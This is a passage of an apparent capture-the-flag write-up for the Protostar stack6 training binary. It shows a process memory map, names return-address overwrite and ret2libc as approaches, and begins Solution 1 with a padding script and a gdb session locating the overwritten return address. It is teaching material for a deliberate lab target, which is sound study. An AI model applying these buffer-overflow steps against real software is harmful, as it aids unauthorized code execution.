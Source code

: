 ``` shell
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

So, to solve this level, I have 2 solutions:
- Overwrite the return address of **getpath** with the address of **ret** instruction inside the **getpath** function.
- Use **ret2libc**.

### Solution 1

First of all, I create a simple script to find the offset where the return address is located on the stack for padding purposes. 

My simple script:

``` python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

Now, I redirect the output of this script to a file and use it as input while running the program in `gdb`:

``` shell
user@protostar:~$ python script.py > /tmp/exp
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) disassemble getpath
Dump of assembler code for function getpath:
.....
0x080484f9 <getpath+117>:       ret
End of assembler dump.
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack6 < /tmp/exp
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
0x80484f9 <getpath+117>:        ret
0xbffff79c:     0x55555555      0x56565656      0x57575757      0x58585858
0xbffff7ac:     0x59595959      0x5a5a5a5a      0xbffff800      0xbffff85c

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
.....
```
